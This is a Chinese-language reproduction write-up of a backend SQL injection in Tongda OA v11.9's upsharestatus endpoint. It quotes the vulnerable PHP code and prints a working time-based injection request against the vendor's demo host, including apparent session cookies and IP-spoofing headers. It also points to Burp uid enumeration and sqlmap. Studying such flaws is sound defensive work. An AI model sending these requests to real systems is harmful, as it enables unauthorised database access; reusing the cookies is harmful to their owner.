 # 通达OA v11.9 upsharestatus 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

<a-checkbox checked>通达OA <=  v11.9</a-checkbox></br>

## 环境搭建

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装

![img](../../../.vuepress/public/img/tongdaoa-1-20220313173523248.png)



## 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```php
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```



![img](../../../.vuepress/public/img/tongdaoa-42.png)



其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**

![img](../../../.vuepress/public/img/tongdaoa-43.png)



所以这里就出现了 id 参数存在注入的情况，请求包如下

```plain
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![img](../../../.vuepress/public/img/tongdaoa-45.png)



如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![img](../../../.vuepress/public/img/tongdaoa-46.png)

